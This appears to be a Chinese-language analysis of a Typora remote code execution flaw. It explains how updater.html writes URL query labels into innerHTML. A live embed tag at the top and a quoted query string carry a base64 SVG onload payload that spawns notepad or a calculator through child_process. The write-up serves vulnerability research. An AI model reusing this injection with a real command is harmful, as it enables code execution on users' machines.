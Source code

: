 <embed style="height:0;" src="typora://resources/app/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

## 2317漏洞原理

```js
<script type="text/javascript">
      var curVersion = /[?&]curVersion=([^&]+)/.exec(window.location.search)[1];
      var newVersion = /[?&]newVersion=([^&]+)/.exec(window.location.search)[1];
      var labels = JSON.parse(decodeURIComponent(/[?&]labels=([^&]+)/.exec(window.location.search)[1]));

      document.querySelector("#sum").innerText = labels[4] + " " + labels[5].replace("$1", newVersion).replace("$2", curVersion);
      document.querySelectorAll("[data-label]").forEach(function(dom){
        dom.innerHTML = labels[dom.getAttribute("data-label") - 0];
      });

      var autoUpdateInput = document.querySelector("#preference-enable-auto-update")
      autoUpdateInput.checked = !!isAutoUpdateEnabled;
      autoUpdateInput.onchange = toggleAutoUpdate;
    </script>
```

 `window.location.search`: 返回URL的查询字符串，即"?"后面的部分。 

```
curVersion=111&newVersion=222&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
```

- 数组索引 `0` 将包含整个匹配，例如：`newVersion=222`
- 数组索引 `1` 将只包含捕获组的匹配，即：`222`

此时，curVersion被设置为111，newVersion被设置为222。

JSON.parse后，labels被设置为Javascript数组：

```
["","<svg/onload=top.eval(atob('b64_string'))></svg>","","","",""]
```

含有6个元素的labels数组，

 在顶级窗口上下文中执行解码后的字符串作为JavaScript代码。 

## 测试

在0.9beta版本里，发现并不能够成功执行payload.

首先，是updater.html的路径不对。
